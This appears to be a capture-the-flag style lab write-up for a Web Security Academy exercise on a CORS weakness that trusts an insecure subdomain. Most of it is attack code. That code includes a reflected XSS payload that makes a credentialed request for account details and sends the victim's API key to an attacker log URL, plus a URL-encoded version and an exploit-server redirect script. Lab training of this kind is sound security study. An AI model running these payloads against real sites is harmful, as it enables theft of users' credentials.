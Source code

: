 # Lab: CORS vulnerability with trusted insecure protocols
## Description
1. Used a hint :-)
2. Found XSS in `productId` on a sub-domain at `http://stock.victim.web-security-academy.net/?productId=4&storeId=1`
3. Created XSS script to trigger a CORS request to `https://victim.web-security-academy.net/accountDetails`
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://victim.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
var obj = JSON.parse(this.responseText);
location='https://hacker.web-security-academy.net/log?key='+obj.apikey;
};
```
4. URL-encoded key characters and converted into a single line
```
%3cscript%3evar+req+%3d+new+XMLHttpRequest()%3breq.onload+%3d+reqListener%3breq.open('get','https%3a//ac801f661edac6c4800502f400fd00b1.web-security-academy.net/accountDetails',true)%3breq.withCredentials+%3d+true%3breq.send()%3bfunction+reqListener()+%7bvar+obj+%3d+JSON.parse(this.responseText)%3blocation%3d'https%3a//acae1f671e9cc6d9801c02d301270099.web-security-academy.net/log%3fkey%3d'%2bobj.apikey%3b}%3b%3c/script%3e
```
5. Prepared exploit server to redirect user to malicious XSS URL to trigger the CORS request and steal the API key.

## Solution
```js
<script>
document.location="http://stock.ac801f661edac6c4800502f400fd00b1.web-security-academy.net/?productId=4%3cscript%3evar+req+%3d+new+XMLHttpRequest()%3breq.onload+%3d+reqListener%3breq.open('get','https%3a//ac801f661edac6c4800502f400fd00b1.web-security-academy.net/accountDetails',true)%3breq.withCredentials+%3d+true%3breq.send()%3bfunction+reqListener()+%7bvar+obj+%3d+JSON.parse(this.responseText)%3blocation%3d'https%3a//acae1f671e9cc6d9801c02d301270099.web-security-academy.net/log%3fkey%3d'%2bobj.apikey%3b}%3b%3c/script%3e&storeId=1";
</script>
```